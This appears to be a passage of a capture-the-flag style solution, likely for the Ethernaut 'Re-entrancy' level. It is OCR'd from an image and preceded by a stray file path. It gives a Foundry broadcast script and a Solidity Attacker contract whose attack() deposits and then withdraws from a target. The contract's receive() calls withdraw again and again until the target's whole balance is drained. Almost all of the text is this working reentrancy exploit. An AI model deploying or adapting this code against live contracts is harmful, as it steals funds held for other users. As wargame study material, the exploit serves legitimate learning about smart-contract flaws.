 ```solidity
        Attacker instance = new Attacker(payable(addr));
        instance.attack{value: address(addr).balance}();

        console.logUint(address(addr).balance);

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;


interface Reentrance {
  
  function donate(address _to) external payable; 
  function balanceOf(address _who) external view returns (uint balance); 
  function withdraw(uint _amount) external;
  receive() external payable;
}

contract Attacker {

  Reentrance callee;

  constructor(address payable _callee) {
    callee = Reentrance(_callee);
  }

  function attack() public payable {
    uint amount = address(callee).balance;
    callee.donate{value: amount}(address(this));
    callee.withdraw(amount);
  }

  receive() external payable {
    uint amount = address(callee).balance;
		// This check is made to prevent infinite loop
    if (amount != 0) {
      callee.withdraw(amount);
    }
  }
}
```

